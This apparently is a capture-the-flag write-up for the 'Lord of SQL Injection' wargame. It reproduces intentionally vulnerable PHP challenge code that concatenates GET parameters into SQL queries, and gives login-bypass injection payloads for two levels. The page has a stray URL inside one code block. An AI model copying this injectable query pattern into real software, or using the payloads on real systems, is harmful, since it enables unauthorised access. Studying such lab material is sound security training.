 # LORD OF SQL

## GREMLIN

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

payload: `id=cc&pw='or 1=1 -- -`

## COBOLT

```php
http://www.wechall.net
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

payload: `id=admin' -- -`

## GOBLIN

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>

```

